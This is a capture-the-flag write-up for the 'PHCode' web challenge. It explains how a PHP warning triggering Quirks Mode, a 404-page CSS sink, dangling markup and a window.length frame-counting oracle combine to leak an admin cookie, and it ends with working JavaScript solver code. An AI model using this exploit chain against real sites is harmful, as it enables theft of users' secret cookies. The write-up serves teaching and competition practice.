




# PHCode

**Category:** Web / XS-Leaks  
**Difficulty:** Very Hard

---
This was one of the 4 Web tasks i wrote for GCUP CTF V2. Overall I had lots of fun writing these challenges and finding out the interesting ways people approached these challenges (or their AI agents did...) and it was also a learning experience seeing the different ways people used to uncover the same vulnerability.

---
If we do not know about XSLeaks, please read more on them in [The official Wiki](https://xsleaks.dev/)
PHCode is basically a snippet sharing app that reflects user output and is very simple at first glance.


The first thing we see is the source code. The app prints itself.

```php
<?php echo validate($_GET["snippet"] ?? "<!-- paste a snippet -->")."\n"; ?><?php
      echo htmlspecialchars($_COOKIE["NOTE"] ?? "NOTE_0123456789abcdef"); ?>
```

Our `?snippet=` value lands in the DOM, and immediately after it, with no whitespace or markup in between, the admin bot's cookie: `NOTE_[0-9a-f]{16}`.
This already can give someone that knows about [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) an idea, if we can leave an HTML attribute unclosed at the end of our snippet, the parser reads everything after it as the attribute value, and that run starts at `NOTE_`.

But there is a filter standing between we and the injection:

```php
if (preg_match('/[^\x20-\x7E\r\n]/', $input)) return '';
if (preg_match('*http|data|valid|pattern|\\\\|\*|&|%|@|//*i', $input)) return '';
```

Printable ASCII only, 1024 bytes max. Banned: `http`, `data`, `valid`, `pattern`, backslash, `*`, `&`, `%`, `@`, `//`. Angle brackets survive. Brackets `[` and `]` survive. Single quotes survive.

Then a Caddy proxy sets the content security policy that decides everything else:

```
Content-Security-Policy: script-src 'none'; default-src 'self'; base-uri 'none'
```

`script-src 'none'` closes XSS immediately. The reflected HTML can _never_ become a script. 
`default-src 'self'` closes every outbound channel. Whatever leak we build has to measure the secret cross-origin without any network callback. That constraint points at "networkless" leaks.


---

## Forcing Quirks Mode

CSS injection without a stylesheet is useless. We can inject CSS text as part of a `<link>` tag, but the browser will only load a same-origin response as a stylesheet if either:

- The response has `Content-Type: text/css`, or
- The document is in [Quirks Mode](https://quirks.spec.whatwg.org/) and the resource is same-origin

The Quirks Mode rule comes from the HTML spec's link-processing model: a same-origin resource with a non-CSS content type is accepted as a stylesheet when the document's compatibility mode is `"BackCompat"`. The document enters Quirks Mode when there is non-whitespace content before `<!DOCTYPE html>`.

So the question becomes: can we get anything to print before the doctype?

The source has this section:

```php
$dbg = $_GET['debug'] ?? '';
if ($dbg !== '') { $label = 'debug:' . $dbg; }
```

On first read, `$label` is never echoed. The block looks dead. The interesting part is the runtime behavior, not what the variable does. The concatenation `'debug:' . $dbg` treats `$dbg` as a string. If `debug` arrives as an array (`debug[]=1`), PHP emits:

```
Warning: Array to string conversion in /var/www/html/index.php on line 12
```

With `display_errors=On`, that warning goes straight into the response body. It arrives before `<!DOCTYPE html>`. The browser's [initial insertion mode](https://html.spec.whatwg.org/multipage/parsing.html#the-initial-insertion-mode) encounters non-whitespace before the doctype declaration and sets the document to Quirks Mode.

```
GET /?snippet=test&debug[]=1

<br />
<b>Warning</b>: Array to string conversion in /var/www/html/index.php on line 12<br />
<!DOCTYPE html>
...
```

Open DevTools and check: `document.compatMode === "BackCompat"`. The MIME check is now relaxed for same-origin responses.


---

## Finding the CSS sink

With Quirks Mode active we need a same-origin endpoint that reflects our input and has no CSS-poisoning content. The obvious candidate is the main page itself.

It does not work. The page prints its own source, and that source contains `/*` inside the validate regex (`...|//*i`). In CSS, `/*` opens a block comment that swallows everything that follows it. We cannot close it because `*` is banned. Any CSS we inject gets eaten by the comment opened by the printed source.

The sink that does work is not in `index.php`. It is a behavior of the PHP built-in server: every 404 response reflects the full request URI into the body. The template is in [`sapi/cli/php_cli_server.c#L374`](https://github.com/php/php-src/blob/PHP-8.3/sapi/cli/php_cli_server.c#L374):

```c
{ 404, "<h1>%s</h1><p>The requested resource <code class=\"url\">%s</code>"
       " was not found on this server.</p>" }
```

The second `%s` is the full request URI. So `/not-found.txt?{}body{background:red}` produces:

```html
<code class="url">/not-found.txt?{}body{background:red}</code>
```

That `{}` at the start is deliberate: it becomes an empty CSS rule that absorbs the `/not-found.txt?` prefix the server reflects, so the actual rule parses cleanly. The reason this was hard is because it requires probing beyond just the source code.

Caddy would normally pass the 404 status through. It does not, because of this handler:

```
@notfound status 404
handle_response @notfound { copy_response 200 }
```

The 404 becomes a 200. The browser accepts it as a stylesheet. Quirks Mode makes its `text/html` body parse as CSS.



---

## Building the prefix matcher

We can load a stylesheet and inject CSS. The next problem is reading a value we cannot know in advance.

In CSS, an attribute selector can test prefixes: `[name^='NOTE_0a']` matches any element whose `name` attribute starts with `NOTE_0a`. The `*` selector (substring) is banned, but `^=` (prefix) is fine because it only needs the caret.

We need to get `NOTE_...` into an element's attribute. That is where dangling markup comes in. Our snippet ends with an unclosed attribute:

```html
<embed code=x type=text/html name=
```

When the parser processes the page, everything after `name=` up to the next quote or whitespace boundary becomes the attribute value. That run starts exactly at `NOTE_...` because the snippet and the cookie land adjacent. After parsing: `embed.name === "NOTE_37390fc6..."`.

Now `embed[name^=NOTE_37]` tests the first two nibbles of the cookie. Narrow the alphabet with binary search and we can identify each hex character in a handful of loads.

---

## The oracle: window.length

We have a CSS rule that fires on a prefix match. We need to read the result cross-origin without making any network request.

`<embed code=x type=text/html>` creates a nested browsing context. Nested browsing contexts are counted in the parent window's `window.length`. `display:none` removes the element from the count.

The injected CSS:

```css
embed[name^=NOTE_37]{display:none}
```

Match: the embed is hidden. `window.length === 0`.  
No match: the embed is visible. `window.length === 1`.

`window.length` is readable [cross-origin](https://xsleaks.dev/docs/attacks/frame-counting/) by spec. No network callback or fetch needed. The attacker page opens a popup to the PHCode URL, polls `win.length` once the popup goes cross-origin, and gets one bit. Binary search across 16 hex positions reconstructs the full cookie in roughly 16 popup loads.

---

## The exploit

`solve.html` opens a popup and drives it through 16 binary search rounds. Each round loads the payload URL with `debug[]=1` to trigger Quirks Mode, loads the 404 CSS sink via a `<link>`, leaves the `<embed>` unclosed so the cookie lands in its `name`, and polls `win.length`:

```javascript
const probe = async (chars) => {
  win.location = 'about:blank';
  while (true) { try { if (win.origin && win.length === 0) break; } catch {} await sleep(4); }

  const rule = chars.map(c => `embed[name^=${known}${c}]`).join(',') + '{display:none}';
  const link = `<link href="/not-found.txt?{}${rule}" rel=stylesheet>`;
  const payload = link + `<embed code=x type=text/html name=`;

  const url = `${BASE}/?snippet=${encodeURIComponent(payload)}&debug[]=1`;
  win.location = url;
  // wait for cross-origin (origin read throws), then poll win.length
  while (true) { try { win.origin; await sleep(3); } catch { break; } }
  for (let t = 0; t < 300; t += 8) {
    if (win.length === 1) return false;
    await sleep(8);
  }
  return true;
};
```

Multiple candidates are tested per round via a comma-joined selector, halving the hex space each iteration. The `about:blank` navigation at the top of each probe lets the embed count reset cleanly between rounds.
My solver works on Beeceptor, but you can use any other service like requestrepo or just host your own endpoint.


Wrap the note in GCUP{} and there's your flag 👈(⌒▽⌒)👉

---

This challenge was directly inspired by arkark's [pure-leak from ASIS CTF Quals 2025](https://blog.arkark.dev/2025/09/08/asisctf-quals), big shoutout to their work and challenge. If you have not read the original writeup or require more detail, it is worth reading alongside this one.
